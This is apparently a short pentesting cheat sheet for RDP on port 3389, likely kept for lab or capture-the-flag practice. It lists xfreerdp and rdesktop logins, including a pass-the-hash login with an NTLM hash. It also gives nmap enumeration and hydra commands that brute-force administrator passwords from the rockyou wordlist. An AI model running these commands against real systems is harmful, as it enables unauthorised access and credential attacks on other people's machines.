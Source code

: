 - - -
**Default port:** 3389
**Remote Desktop** Protocol (**RDP**) is a proprietary protocol developed by Microsoft, which provides a user with a graphical interface to connect to another computer over a network connection.
- - -
### Accessing : 

```sh
xfreerdp /u:admin /pth:<NTLM-hash-of-user-admin-pass> /v:$IP /cert-ignore /dynamic-resolution
```

```sh
xfreerdp /u:admin /p:password /cert:ignore /v:10.10.147.80 /workarea
```

```sh
xfreerdp /u:administrator /g:grandbussiness /p:bla /v:192.168.1.34
```

```sh
xfreerdp /d:THM /u:Administrator /p:Password321 /v:10.10.158.14 /dynamic-resolution
```

```sh
rdesktop $IP
```

- - -

### Enumeration : 

```sh
nmap -p 3389 --script rdp-ntlm-info $IP
```

- - -

### BruteForcing : 

For Password : 
```sh
hydra -t 4 -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$IP
```

For User : 
```sh
hydra -V -f -L user.txt -P dict.txt rdp://$IP
```

- - -
